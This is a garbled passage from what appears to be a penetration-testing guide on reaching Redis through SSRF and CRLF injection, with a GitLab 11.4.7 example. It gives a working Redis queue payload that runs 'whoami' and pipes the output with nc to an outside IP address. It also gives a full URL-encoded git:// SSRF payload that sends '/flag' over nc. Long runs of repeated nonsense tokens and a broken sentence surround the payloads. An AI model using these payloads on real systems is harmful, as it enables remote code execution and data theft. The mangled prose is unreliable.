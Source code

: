 **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar'a'** **qar
```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```
So, if you find a **SSRF vuln** in a website and you can **control** some **headers** (maybe with a CRLF vuln) or **POST parameters**, you will be able to send arbitrary commands to Redis.

### Example: Gitlab SSRF + CRLF to Shell

In **Gitlab11.4.7** were discovered a **SSRF** vulnerability and a **CRLF**. The **SSRF** vulnerability was in the **import project from URL functionality** when creating a new project and allowed to access arbitrary IPs in the form \[0:0:0:0:0:ffff:127.0.0.1] (this will access 127.0.0.1), and the **CRLF** vuln was exploited just **adding %0D%0A** characters to the **URL**.

Therefore, it was possible to **abuse these vulnerabilities to talk to the Redis instance** that **manages queues** from **gitlab** and abuse those queues to **obtain code execution**. The Redis queue abuse payload is:
```
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```
'ej **URL encode** request **SSRF** **abusing** **CRLF** **execute** `whoami` **send** output **via** `nc` **is**:
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```
_ghItlhvam (ghItlhvam 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e'

